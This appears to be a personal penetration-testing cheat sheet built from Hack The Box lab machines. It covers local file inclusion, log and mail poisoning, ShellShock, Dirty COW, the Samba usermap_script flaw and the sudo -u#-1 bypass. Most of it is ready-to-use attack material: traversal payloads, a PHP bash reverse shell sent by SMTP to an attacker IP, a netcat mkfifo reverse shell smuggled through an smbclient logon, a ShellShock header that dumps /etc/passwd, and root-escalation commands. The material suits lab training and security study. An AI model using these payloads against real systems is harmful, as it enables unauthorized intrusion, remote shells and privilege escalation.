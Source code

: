 # Local File Inclusion (LFI)
## Example
* assume website provides functionality to view files
* if not properly sanitized input like ``../../../../../etc/passwd`` may be possible

## Using phpfilter
```
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
```

## PHPInfo LFI
* see https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
* basic idea: race condition due to saving request (multipart) in file under /tmp/XYZ
* the filename can be found in the phpinfo page under variables
* the request should be as big as possible to increase processing time to win the race
* if you are able to browse/access this file before it gets deleted you have RCE

## LFI + SMPT Reverse Shell
* assume you have local file inclusion like:
```
GET //vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action HTTP/1.1
```
* additionally assume SMTP Port (25) is open
```
# connect
$> telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.

# wait for prompt
220 beep.localdomain ESMTP Postfix

# if enhanced
EHLO asdf

# if not
HELO asdf

# verify receipient
VRFY fanis@localhost
252 2.0.0 fanis@localhost # if exist
550 5.1.1 <asdf>: Recipient address rejected: User unknown in local recipient table # if not

# send mail with payload
mail from: manu@manu.ch
250 2.1.0 Ok
rcpt to: fanis@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system("/bin/bash -i >& /dev/tcp/10.10.14.4/3141 0>&1"); ?>

.
250 2.0.0 Ok: queued as E2517D92FD

```
* setup listener and send request to:
```
/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/fanis%00&module=Accounts&action
```

# Log Poisoning
* For this example a LFI is necessary to work
* prerequisite: accessing the http-log file is needed
* since your user agent is logged for example in /var/log/apache2/access.log you have full control
* modify user agent for example to: ``<?php exec("whoami");?>``
* browse to access log of web server

# ShellShock
## CVE-2014-6271
```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

## Example from HTB (Shocker)

**Request:**
```
GET /cgi-bin/user.sh HTTP/1.1

Host: 10.10.10.56

User-Agent: () { :;};echo -e "\r\n$(/bin/cat /etc/passwd)"

Connection: close

```

**Response:**
```
HTTP/1.1 200 OK
Date: Tue, 06 Oct 2020 19:40:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 1687

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash

Content-Type: text/plain
Just an uptime test script
 15:40:23 up 15 min,  0 users,  load average: 0.00, 0.00, 0.00

```

# Dirtyc0w Kernel Exploit (Linux)
See https://github.com/firefart/dirtycow
1. Transfer .c file to target
2. compile it with ``gcc -pthread dirty.c -o dirty -lcrypt``
3. execute the binary ``./dirty newpassword``
4. user ``firefart`` is created with root privileges
# CVE-2007-2447 (smb usermap script)
## Example from Lame (HTB)
```
smbclient //10.10.10.3/tmp
smb: \> logon "/=`nohup mkfifo /tmp/manununu; nc 10.10.14.41 2222 0</tmp/manununu | /bin/sh >/tmp/manununu 2>&1; rm /tmp/manununu`"
```

# MS17-010 - CVE-2017-0143 (EternalBlue)
* see https://github.com/k4u5h41/MS17-010_CVE-2017-0143

# Sudo underflow bug (CVE-2019-14287)
```
sudo -u#-1 /bin/bash
```
